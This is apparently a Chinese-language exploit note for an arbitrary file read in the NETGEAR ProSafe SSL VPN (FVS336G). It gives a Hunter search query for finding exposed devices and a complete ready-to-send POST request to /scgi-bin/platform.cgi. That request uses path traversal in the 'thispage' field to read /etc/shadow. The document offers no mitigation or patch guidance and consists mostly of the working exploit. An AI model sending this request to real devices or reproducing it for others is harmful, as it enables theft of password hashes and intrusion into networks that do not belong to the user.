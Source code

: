 # NETGEAR ProSafe SSL VPN 任意文件读取漏洞

# 一、漏洞简介
NETGEAR FVS336G是美国网件（NETGEAR）公司的一款VPN（虚拟私人网络）防火墙路由器。NETGEAR ProSafe SSL VPN 存在任意文件读取漏洞。

# 二、影响版本
+ NETGEAR ProSafe SSL VPN 

# 三、资产测绘
+ hunter`app.name=="NETGEAR ProSAFE"`
+ 特征

![1694579919965-2ed9bd62-7659-4f42-b63c-fbce7679b1ce.png](./img/heHKcRsfQDm4_YgN/1694579919965-2ed9bd62-7659-4f42-b63c-fbce7679b1ce-161150.png)

# 四、漏洞复现
```plain
POST /scgi-bin/platform.cgi HTTP/1.1
Host: xx.xx.xx.xx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/117.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 218

thispage=../../../../../../../../../../../../../../../../etc/shadow &USERDBUsers.UserName=CFTg&USERDBUsers.Password=&USERDBDomains.Domainname=geardomain&button.login.USERDBUsers.router_status=Login&Login.userAgent=xlLc
```

![1694585071322-448be7b9-7f15-4b1c-a74a-90fc6f33527e.png](./img/heHKcRsfQDm4_YgN/1694585071322-448be7b9-7f15-4b1c-a74a-90fc6f33527e-828437.png)



> 更新: 2024-02-29 23:57:14  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/bt9faqk44fugqlqs>